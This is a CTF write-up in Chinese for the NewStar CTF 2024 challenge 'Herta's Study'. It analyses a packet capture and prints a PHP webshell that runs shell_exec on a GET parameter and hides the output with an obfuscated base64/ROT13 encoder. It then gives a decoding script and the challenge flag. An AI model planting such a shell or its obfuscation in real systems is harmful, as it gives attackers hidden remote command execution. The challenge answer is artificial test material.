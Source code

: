 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


<script setup>
import Container from '@/components/docs/Container.vue'
</script>

# Herta's Study

<Container type='tip'>
本题考点：PHP 混淆，流量分析
</Container>

建议配合 unknown 师傅的前两道流量题食用

第七条流量是上传的 PHP 木马

```php
<?php
    $payload=$_GET['payload'];
    $payload=shell_exec($payload);
    $bbb=create_function(
        base64_decode('J'.str_rot13('T').'5z'),
        base64_decode('JG5zPWJhc2U2NF9lbmNvZGUoJG5zKTsNCmZvcigkaT0wOyRpPHN0cmxlbigkbnMpOyRp
        Kz0xKXsNCiAgICBpZigkaSUy'.str_rot13('CG0kXKfAPvNtVPNtVPNtWT5mJlEcKG1m').'dHJfcm90MTMoJG5zWyRpXSk7DQo
        gICAgfQ0KfQ0KcmV0dXJuICRuczs==')
    );
    echo $bbb($payload);
?>
```

可以搜索一下 `create_funtion()` 函数，解除混淆后得到加密代码

```php
$ns = base64_encode($ns);
for ($i = 0; $i < strlen($ns); $i += 1){
    if ($i % 2 == 1) {
        $ns[$i] = str_rot13($ns[$i]);
    }
}
return $ns;
```

就是 Base64 后把奇数位 ROT13

解码反过来就行（第38条，`f.txt` 里的是真 flag，另一个是假 flag）

```php
<?php
$ns = 'ZzxuZ3tmSQNsaGRsUmBsNzVOdKQkZaVZLa0tCt==';
for ($i = 0; $i < strlen($ns); $i += 1){
    if ($i % 2 == 1) {
        $ns[$i] = str_rot13($ns[$i]);
    }
}
echo base64_decode($ns);
// flag{sH3_i4_S0_6eAut1fuL.}
?>
```
